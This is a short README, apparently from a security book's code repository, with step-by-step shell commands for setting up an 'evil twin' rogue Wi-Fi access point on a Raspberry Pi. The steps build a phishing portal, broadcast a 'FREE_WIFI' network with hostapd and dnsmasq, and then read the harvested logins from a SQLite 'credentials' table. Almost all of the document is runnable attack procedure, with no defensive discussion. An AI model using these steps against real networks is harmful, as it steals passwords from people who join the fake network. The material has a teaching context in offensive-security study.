 # Evil Twin

On a Raspberry Pi with Rust installed and connected to internet by ethernet:

First, build the phishing portal:
```shell
$ cargo install wasm-pack
$ git clone https://github.com/skerkour/black-hat-rust.git && cd black-hat-rust/ch_09/evil_twin
$ make -C ../phishing/ rpi && cp -r ../phishing/dist/* .

```

Then:
```shell
$ sudo apt install -y macchanger hostapd dnsmasq sqlite3 libssl-dev
$ sudo ./server -p 80 &
$ sudo ./evil_twin.sh
```


Then visit the `FREE_WIFI` wifi network.


To access the phished credentials:
```
$ sqlite3 db.sqlite
sqlite> SELECT * FROM credentials;
```


You can update the SSID (access point's name) in `hostapd.conf`.
